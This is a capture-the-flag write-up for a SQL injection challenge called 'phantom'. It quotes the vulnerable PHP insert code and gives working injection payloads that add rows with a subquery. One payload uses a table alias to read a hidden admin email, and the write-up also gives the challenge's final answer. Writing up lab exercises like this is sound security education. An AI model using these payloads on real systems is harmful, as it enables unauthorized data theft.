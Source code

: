 ```yaml
---
layout: default
title: phantom
---
```


As we can see, we can insert whatever we want to the table:
```php
if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
        $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
        mysqli_query($db,$query);
        echo "<hr>query : <strong>{$query}</strong><hr>";
}
```

And then it shows us all those with `no=1`, where it's censoring the email, and also all those with our ip:
```php
$rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
        echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
    }
    echo "</table>";
```

So, let's give something like this:
```sql
a'),(3,'199.203.227.29',(select 'Inject'))-- 
```

As we can see, it outputs the `Inject` as an email.

So, let's try getting the secret email
```sql
a'),(3,'199.203.227.29',(select email from prob_phantom where no=1))-- 
```

From some reason it isn't working. It getting stuck because we try to fetch and update the same table, so it can't do that.

The trick is to fetch from `prob_phatom`, while giving it an alias
```sql
a'),(3,'199.203.227.29',(select email from prob_phantom as tb_tmp where no=1))-- 
```

and the email we got is:
```
admin_secure_email@rubiya.kr
```

Notice to change the `no` each time you insert, it plays as an Primary Key in the table.

![FINAL](./images/phatom_FINAL.png)

**Password:** ***`admin_secure_email@rubiya.kr`*** 
